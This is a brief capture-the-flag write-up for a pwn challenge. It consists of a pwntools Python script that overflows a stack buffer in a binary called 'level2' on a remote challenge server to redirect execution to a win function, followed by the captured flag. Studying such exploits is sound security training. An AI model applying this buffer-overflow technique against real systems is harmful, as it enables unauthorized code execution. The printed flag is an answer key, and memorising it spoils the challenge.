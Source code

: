 ## Pwn

<p align="center"><img src="header.png" width="" height=""/></p>

### Solution

```python
from pwn import *

elf = ELF("./level2")
target = remote("13.232.159.32", 2555)
payload = b"A"*88
payload += p64(0x000000000040101a)
payload += p64(elf.sym.complete_level)
target.sendline(payload)
target.interactive()


```

flag : **csoc\{another_buffer_overflow_exploit}**